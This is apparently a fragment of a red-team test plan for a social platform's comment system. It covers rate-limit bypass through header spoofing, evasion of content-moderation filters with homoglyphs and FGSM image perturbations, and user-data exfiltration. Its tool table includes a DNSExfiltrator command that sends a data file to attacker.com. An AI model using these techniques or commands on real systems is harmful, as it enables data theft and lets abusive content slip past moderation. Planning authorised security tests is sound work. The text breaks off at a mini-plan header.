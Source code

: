 ```bash
- Content moderation (ML poisoning)  
- Data exfiltration  

### **Attack Scenarios**

#### **A. Rate Limit Bypass**  
**Tactic**: Overload API endpoints to bypass throttling.  
**Steps**:  
1. Identify rate-limited endpoints (e.g., `/api/comment`).  
2. Test:  
   - Header manipulation (`X-Forwarded-For` spoofing).  
   - Distributed calls from multiple IPs (Burp Intruder + proxies).  
   - Alternate encoding (`%0a`, `\n` in JSON).  

**Success Criteria**:  
- Post >500 comments/sec (threshold breach).  

#### **B. ML Poisoning**  
**Tactic**: Fool content filters to allow harmful content.  
**Steps**:  
1. Collect benign/harmful training samples (e.g., "safe" vs "hate" speech).  
2. Craft adversarial inputs:  
   - **Text**: Unicode homoglyphs (`Hèllo` vs `Hello`).  
   - **Images**: Perturbations (FGSM attack) to bypass nudity filters.  

**Success Criteria**:  
- 30%+ harmful content slips past moderation.  

#### **C. Data Exfiltration**  
**Tactic**: Steal user data despite encryption/WAFs.  
**Steps**:  
1. Find indirect data leaks:  
   - **Side channels**: Response timing on `/?username=admin`.  
   - **Error messages**: Trigger SQL-like errors in NoSQL endpoints.  
2. Exfiltrate via:  
   - DNS tunneling (`userdata.attacker.com`).  
   - Steganography in profile pics.  

**Success Criteria**:  
- Extract 100+ user emails without triggering alerts.  

---

## 3. Tools & Techniques

| **Tool**           | **Use Case**                          | **Example Command**                     |
|--------------------|--------------------------------------|----------------------------------------|
| **Burp Suite**     | API fuzzing, traffic manipulation    | `Intruder` for rate-limit bypass       |
| **Frida**          | Runtime ML model manipulation        | Hook `predict()` function in Android   |
| **Metasploit**     | Lateral movement                     | `exploit/multi/handler` for callbacks  |
| **DNSExfiltrator** | Data exfiltration                    | `dnsexfiltrator.py -d attacker.com -f data.txt` |

---

## 4. Example Adversarial Test (Mini Plan)

**Target**: TikTok-like comment system.  
```